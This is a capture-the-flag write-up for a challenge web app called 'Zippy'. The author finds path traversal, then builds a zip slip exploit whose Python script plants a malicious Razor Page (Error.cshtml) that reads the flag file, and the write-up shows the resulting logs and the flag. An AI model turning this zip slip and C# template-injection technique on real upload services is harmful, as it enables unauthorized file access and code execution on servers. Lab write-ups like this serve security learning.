 ## Zippy

Opening the webapp we are greeted with a site seems to take zip files, unpack them, and allow users to view directories only. We can view the /**Browse** page and quickly find that input of `../` allows file path traversal, and we can see flag.txt contained a level above our .current directory.
However, we cannot view or trigger these files/pages. So the files are not available for download or viewing by URL. So we are likely limited to viewing certain web pages.We likely need to find an RCE exploit. But we can enumerate further and find that web pages are located in `../Pages`. But even more interesting is the fact we can access `../../root`. So this web app must have root privs already. Bad idea.

Enumerating further will lead eventually to the /**About** and /**Log** pages. Now at first there is not much in Logs, but the About section states something interesting:
#### Application Info
- Version: 1.0.0
- Framework: .NET 6.0
- Powered by Razor Pages | **Now with runtime compilation!**

**Razor Pages**. Interesting, we did find out the web pages are .cshtml. A quick search online and I quickly found a helpful [resource](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/). It appears that Razor Pages are vulnerable to simple C# injection. But where to inject? We do not have a text box to input a payload. So let's keep looking around.

Let us try to see what happens if we upload a zip on **/Upload** (asdf for ID and Name)
`File uploaded successfully to /app/wwwroot/uploads/asdf for account asdf (ID: asdf)`
Good to know. Let's check the logs. *Snipped the timestamps.*
```
Saving uploaded file to /app/wwwroot/uploads/asdf              
Saving uploaded ZIP file to /app/wwwroot/uploads/asdf/test.zip              
Extracting ZIP file /app/wwwroot/uploads/asdf/test.zip without path traversal checks.              
Extracting file to /app/wwwroot/uploads/asdf/test.txt
```
***WITHOUT*** traversal checks eh? Well with the LFI we found and the name Zippy, we can try to do a zip slip exploit with a payload in C# like we saw in that PoC, tailored to our needs. Honestly can probably revshell, but instead of portfwding and all that, why not try to view it on the app itself? After checking the full path with the /**Browse** page, it appears the web pages themselves are .cshtml files located in `/app/Pages` and we can see familiar ones like About/Browse/Upload/Error/etc. We can certainly access these.

We now have a plan. 
1. Zip slip a Razor Page payload in C#
2. Force app to unzip injected cshtml in specific location
3. I decided to try and replace Error.cshtml as it would not affect other functions we are using. 
4. All of this together explains the script I made, which generates the necessary zip slip files with our payload, then extracts our malicious page where Error is located, replacing it with our own version.
So lets read the flag.txt, and put it on the mf web page. EZ.
```python
import zipfile

zip_filename = 'smolW33n3r.zip'
gl0ryh0le = '../../../../app/Pages/Error.cshtml' # An accessible web page is replaced with ours

gh0st_l0ad = '''
@page
@{
    // Reads flag.txt
    var flagContent = System.IO.File.ReadAllText("/app/flag.txt");
}
<center>
<h1>smol indeed</h1>
<p>@flagContent</p>
</center>
'''
# ur load goes in the hole
with zipfile.ZipFile(zip_filename, 'w') as zipf:
    zipf.writestr(gl0ryh0le, gh0st_l0ad)

print(f"Created {zip_filename} successfully.")
```
Upload the generated zip. Then check the logs:
```powershell
Saving uploaded file to /app/wwwroot/uploads/asdf
Saving uploaded ZIP file to /app/wwwroot/uploads/asdf/smolW33n3r.zip
Extracting ZIP file /app/wwwroot/uploads/asdf/smolW33n3r.zip without path traversal checks.
Extracting file to /app/Pages/Error.cshtml
```
Well now **THAT** is looking good. Let's now try to access /**Error**:

**smol indeed**
`flag{a074eb7973c4c718790baefc096654dd}`

